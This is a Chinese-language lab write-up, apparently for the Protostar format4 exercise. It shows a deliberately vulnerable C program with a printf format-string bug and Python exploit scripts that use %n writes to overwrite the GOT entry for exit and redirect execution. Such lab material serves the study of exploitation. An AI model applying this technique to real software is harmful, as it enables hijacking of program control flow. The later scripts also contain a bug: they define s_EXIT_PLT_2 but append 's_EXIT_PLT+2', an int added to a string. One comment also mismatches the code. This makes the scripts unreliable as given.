# 0x13 格式化字符串
> 格式化字符串漏洞+GOT表覆盖
- 漏洞代码
  ```c
    #include <unistd.h>
    #include <stdio.h>
    #include <string.h>
    int target;
    void hello()
    {
        printf("code execution redirected! you win\n");
    }
    void vuln()
    {
        char buffer[512];
        fgets(buffer, sizeof(buffer), stdin);
        // printf 第一个参数为用户输入，是一个格式化参数
        printf(buffer);
        // exit(1)，表示程序不会返回，而是直接执行 syscall 退出程序及进程
        exit(1);
    }
    int main(int argc, char **argv)
    {
        vuln();
    }

  ```
- 最后执行的效果：覆盖 GOT 表中的 exit 函数，转而执行 hello 函数
## 利用步骤
- 首先，初步运行并验证是否包含格式化字符串漏洞
  ![](img/13-初步验证包含格式化字符串漏洞.PNG)
- 获取相关地址信息
  ![](img/13-获取相关地址信息.PNG)
- 上图中 `0x08049724` 中的值需要覆盖为 hello 函数的地址 `0x80484b4`
- 首先计算 printf 传入参数在栈中的偏移，计算得偏移为 **4**（**`%x` 用于查看栈中内容**）
  ![](img/13-计算偏移.PNG)
- 计算需如何构造达到覆盖`0x08049724` 中的值为 hello 函数的地址 `0x80484b4`
  - 计算 `0x80484b4` 十进制大小
    ![](img/13-计算大小_1.PNG)
    若完全将 134513844 个字符写入文件中作为程序的输入，一字符为一字节，文件会相当大，因此，借助`%x`完成输入。
    ```bash
    int a = 16
    # 转换为16进制输出
    %2x = 10
    %3x = 010
    %4x = 0010
    ...
    ```
  - 直接使用 `%134513844x` 输出过多，因此使用将 `0x80484b4` 分为高位和低位两次写入
- 写入 `0x84b4` 于`0x08049724`地址中值的低位
  ![](img/13-第4为计算偏移.PNG)

  ```python
  import struct
  HELLO = 0x80484b4
  EXIT_PLT = 0x8049724
  # 待覆盖的地址
  s_EXIT_PLT = struct.pack("I",EXIT_PLT)
  # len(s_EXIT_PLT) = 4
  def pad(s):
          return s+'X'*(512-len(s))
  exploit = ""
  exploit += s_EXIT_PLT
  exploit += "%4$33968x"
  # %4$n 前打印的字符数量为 33968+4 = 33972 符合需要覆盖的值
  # %4$n 表示将之前打印的字符数写入栈中偏移为4的位置
  exploit += "%4$n"
  print pad(exploit)
  ```
  ![](img/13-res_1.PNG)
  ![](img/13-res_2.PNG)
- 写入 `0x804` 于`0x08049724`地址中值的高位
  ```python
  import struct
  HELLO = 0x80484b4
  EXIT_PLT = 0x8049724
  # 待覆盖的地址
  s_EXIT_PLT = struct.pack("I",EXIT_PLT)
  s_EXIT_PLT_2 = struct.pack("I",EXIT_PLT+2)
  # len(s_EXIT_PLT) = 4
  def pad(s):
          return s+'X'*(512-len(s))
  exploit = ""
  exploit += s_EXIT_PLT
  exploit += s_EXIT_PLT+2
  exploit += "%4$33964x"
  # %4$n 前打印的字符数量为 33964+4+4 = 33972 符合需要覆盖的值
  # %5$n 表示将之前打印的字符数写入栈中偏移为5的位置
  exploit += "%4$n"
  exploit += "%5$n"
  print pad(exploit)
  ```
  ![](img/13-res_3.PNG)
  - 由于之前打印的字符已有 `0x84b4` 个，而高位需要的字符仅有 `0x804` 个，因此选择上溢为 `0x10804` 以满足要求
    ![](img/13-计算大小_2.PNG)
    ```python
    import struct
    HELLO = 0x80484b4
    EXIT_PLT = 0x8049724
    # 待覆盖的地址
    s_EXIT_PLT = struct.pack("I",EXIT_PLT)
    s_EXIT_PLT_2 = struct.pack("I",EXIT_PLT+2)
    # len(s_EXIT_PLT) = 4
    def pad(s):
            return s+'X'*(512-len(s))
    exploit = ""
    exploit += s_EXIT_PLT
    exploit += s_EXIT_PLT+2
    exploit += "%4$33964x"
    # %4$n 前打印的字符数量为 33964+4+4 = 33972 符合需要覆盖的值
    # %5$n 表示将之前打印的字符数写入栈中偏移为5的位置
    exploit += "%4$n"
    exploit += "%5$33616x"
    exploit += "%5$n"
    print pad(exploit)
    ```
    ![](img/13-res_4.PNG)
- 直接运行：`python format4_exp.py | ./format4`
  ![](img/13-res_5.PNG)
## 参考链接
- [exploit-exercises-protostar-stack-0](https://medium.com/@coturnix97/exploit-exercises-protostar-stack-0-269d77e62e9d)
- [liveoverflow_binary-hacking](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
